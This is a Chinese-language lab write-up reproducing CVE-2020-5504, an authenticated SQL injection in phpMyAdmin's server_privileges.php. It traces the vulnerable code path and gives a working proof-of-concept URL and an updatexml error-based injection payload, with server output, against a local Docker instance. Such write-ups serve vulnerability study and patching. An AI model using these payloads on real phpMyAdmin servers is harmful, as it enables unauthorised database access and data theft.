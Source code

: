（CVE-2020-5504）Phpmyadmin 后台sql注入漏洞
===========================================

一、漏洞简介
------------

在用户帐户页面中发现了一个SQL注入漏洞。创建对此页面的查询时，恶意用户可能会注入自定义SQL来代替其自己的用户名。攻击者必须具有有效的MySQL帐户才能访问服务器。

二、漏洞影响
------------

Phpmyadmin \<= 5.00

Phpmyadmin \<= 4.94

三、复现过程
------------

### 环境搭建

docker一把梭

    docker run --name mysql5.6 -e MYSQL_ROOT_PASSWORD=123456 -d mysql:5.6

\`docker run \--name myadmin -d \--link mysql5.7:db -p 8080:80
phpmyadmin/phpmyadmin:5.0

### 溯源和构造poc

下载前一个版本
5.0.0的[代码压缩包](https://files.phpmyadmin.net/phpMyAdmin/5.0.0/phpMyAdmin-5.0.0-english.zip)后,
打开`libraries/classes/Server/Privileges.php` 来到对应行.

    if (isset($_GET['validate_username'])) {
                $sql_query = "SELECT * FROM `mysql`.`user` WHERE `User` = '"
                    . $_GET['username'] . "';";
                // 省略 节省篇幅
            }

很显然可以看出注入点是`$_GET['username']`,而需要设置`$_GET['validate_username']`

往上看, 这段代码位于`public function getExtraDataForAjaxBehavior`函数.

搜索上层调用来到`/server_privileges.php` 的这段代码

    if ($response->isAjax()
        && empty($_REQUEST['ajax_page_request'])
        && ! isset($_GET['export'])
        && (! isset($_POST['submit_mult']) || $_POST['submit_mult'] != 'export')
        && ((! isset($_GET['initial']) || $_GET['initial'] === null
        || $_GET['initial'] === '')
        || (isset($_POST['delete']) && $_POST['delete'] === __('Go')))
        && ! isset($_GET['showall'])
        && ! isset($_GET['edit_user_group_dialog'])
    ) {
        $extra_data = $serverPrivileges->getExtraDataForAjaxBehavior(
            (isset($password) ? $password : ''),
            (isset($sql_query) ? $sql_query : ''),
            (isset($hostname) ? $hostname : ''),
            (isset($username) ? $username : '')
        );

        if (! empty($message) && $message instanceof Message) {
            $response->setRequestStatus($message->isSuccess());
            $response->addJSON('message', $message);
            $response->addJSON($extra_data);
            exit;
        }
    }

可以发现if里大部分条件都可控, 除了`$response->isAjax()`

    public function isAjax(): bool
        {
            return $this->_isAjax;
        }

查看构造函数

    /**
         * Creates a new class instance
         */
        private function __construct()
        {
            if (! defined('TESTSUITE')) {
                $buffer = OutputBuffering::getInstance();
                $buffer->start();
                register_shutdown_function([$this, 'response']);
            }
            $this->_header = new Header();
            $this->_HTML   = '';
            $this->_JSON   = [];
            $this->_footer = new Footer();

            $this->_isSuccess  = true;
            $this->_isDisabled = false;
            $this->setAjax(! empty($_REQUEST['ajax_request']));
            $this->_CWD = getcwd();
        }

可以看到这条件在于`$_REQUEST['ajax_request']`是否为空.

根据上面的几个条件 我们可以构造出如下最简单的poc

    http://127.0.0.1:8080/server_privileges.php?ajax_request=true&validate_username=true&username=test%27%22

登陆后(这个操作需要权限) 尝试访问上面的url.返回如下

    {"success":false,"error":"<div class=\"error\"><h1>Error<\/h1><p><strong>Static analysis:<\/strong><\/p><p>1 errors were found during analysis.<\/p><p><ol><li>Ending quote \" was expected. (near \"\" at position 53)<\/li><\/ol><\/p><p><strong>SQL query:<\/strong>  <a href=\"#\" class=\"copyQueryBtn\" data-text=\"SELECT * FROM `mysql`.`user` WHERE `User` = 'test'"';\">Copy<\/a>\n<a href=\".\/url.php?url=https%3A%2F%2Fdev.mysql.com%2Fdoc%2Frefman%2F5.6%2Fen%2Fselect.html\" target=\"mysql_doc\"><img src=\"themes\/dot.gif\" title=\"Documentation\" alt=\"Documentation\" class=\"icon ic_b_help\"><\/a><a href=\"server_sql.php?sql_query=SELECT+%2A+FROM+%60mysql%60.%60user%60+WHERE+%60User%60+%3D+%27test%27%22%27%3B&show_query=1\"><span class=\"nowrap\"><img src=\"themes\/dot.gif\" title=\"Edit\" alt=\"Edit\" class=\"icon ic_b_edit\"> Edit<\/span><\/a>    <\/p>\n<p>\nSELECT * FROM `mysql`.`user` WHERE `User` = 'test'"';\n<\/p>\n<p>\n    <strong>MySQL said: <\/strong><a href=\".\/url.php?url=https%3A%2F%2Fdev.mysql.com%2Fdoc%2Frefman%2F5.6%2Fen%2Ferror-messages-server.html\" target=\"mysql_doc\"><img src=\"themes\/dot.gif\" title=\"Documentation\" alt=\"Documentation\" class=\"icon ic_b_help\"><\/a>\n<\/p>\n<code>#1064 - You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '"'' at line 1<\/code><br><\/div>"}

一个sql报错信息, 说明这个最短poc生效了

利用的话 反正都回显了 直接updatexml报错注入

    http://127.0.0.1:8080/server_privileges.php?ajax_request=true&validate_username=true&username=test%27%20and%20(select%20updatexml(1,concat(0x7e,(SELECT%20@@version),0x7e),1))%20--%20

在返回最下面可以看到`#1105 - XPATH syntax error: '~5.6.46~'`

### 后言

这个洞要求一个可以登录的账号才能注入. ,
另外这个请求似乎也不需要`csrf-token`(不过似乎没什么用)

参考链接
--------

> <https://xz.aliyun.com/t/7092>
